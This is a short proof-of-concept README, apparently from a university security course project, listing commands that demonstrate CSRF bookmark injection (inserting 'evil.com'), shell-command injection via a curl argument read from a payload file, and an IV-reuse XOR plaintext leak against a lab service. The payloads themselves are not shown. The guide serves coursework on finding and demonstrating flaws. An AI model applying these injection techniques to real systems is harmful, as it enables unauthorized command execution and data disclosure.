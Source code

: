 # csci4271w-p2-poc
Project 2 
# Proof‑of‑Concept Guide

## 1  CSRF Bookmark Injection
sudo ./bcbms &          # start cloud service
xdg-open poc/inject.html
# ⇒ Bookmark 'evil.com' silently inserted.

## 2  Shell‑Command Injection
curl "$(cat poc/cmd_inject.txt)"
# ⇒ File 'hacked' created (or chosen payload runs).

## 3  IV‑Reuse Plaintext Leak
python3 poc/xor_leak.py
# ⇒ Script prints XOR’d plaintext bytes from two archives.

## Notes
* Clean up with `pkill bcbms` if you backgrounded the server.
